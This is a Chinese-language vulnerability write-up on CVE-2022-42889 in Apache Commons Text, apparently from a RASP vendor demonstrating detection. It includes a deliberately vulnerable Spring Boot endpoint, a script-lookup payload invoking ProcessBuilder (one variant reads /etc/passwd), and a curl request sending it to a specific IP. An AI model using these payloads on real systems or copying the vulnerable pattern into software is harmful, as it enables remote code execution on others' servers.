



# CVE-2022-42889

## 漏洞简介
10 月 13 日，Apache Commons Text 官方通过公开邮件列表发布安全公告，针对一处远程代码执行漏洞进行修复，漏洞编号为 CVE-2022-42889：
https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om

Apache Commons Text 是一个专注于字符串算法的 Java 第三方开源库。Apache Commons Text 可以执行字符串变量插值替换，从而可以对字符串进行动态解析和扩展。

而从 1.5开始直到 1.9 版本，Apache Commons Text 在进行字符串变量插值解析替换时默认包含某些危险的 Lookup 实例机制，从而导致安全漏洞（CVE-2022-42889）。

当开发者使用 Apache Commons Text 对由外部用户输入的数据进行字符串动态解析替换时，攻击者可通过利用此漏洞，在目标服务器上造成远程代码执行、服务端请求伪造（SSRF）等危害。

## 影响版本

1.5 <= Apache Commons Text <= 1.9

官方目前已经发布新版 1.10.0，用户可更新到此版本进行漏洞修复。

## 环境搭建

创建 springboot 工程，关键代码
```java
    @PostMapping("/CVE-2022-42889.do")
    public String CVE_2022_42889(String text) throws Exception {
        StringSubstitutor stringSubstitutorInterpolator = StringSubstitutor.createInterpolator();
        // String payload = "${script:js:new java.lang.ProcessBuilder(\"cat /etc/passswd\").start()}";
        String replace = stringSubstitutorInterpolator.replace(text);
        return replace;
    }
```

依赖版本：1.9
```java
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
</dependency>
```

## 漏洞触发



请求：
```java
curl --location --request POST 'http://111.229.199.6:8080/CMD/CVE-2022-42889.do' \
--header 'Content-Type: application/x-www-form-urlencoded' \
--data-urlencode 'text=${script:js:new java.lang.ProcessBuilder(\"pwd\").start()}'
```


## RASP 检测



详情：


## 说明

+ 尽管该依赖jar使用较少，但是漏洞利用简单，并且可以执行任意代码，有一定影响。

+ 检测模块与算法： 包括字符串长度限制与类黑名单；

+ 临时性的热补丁，用户无需重启；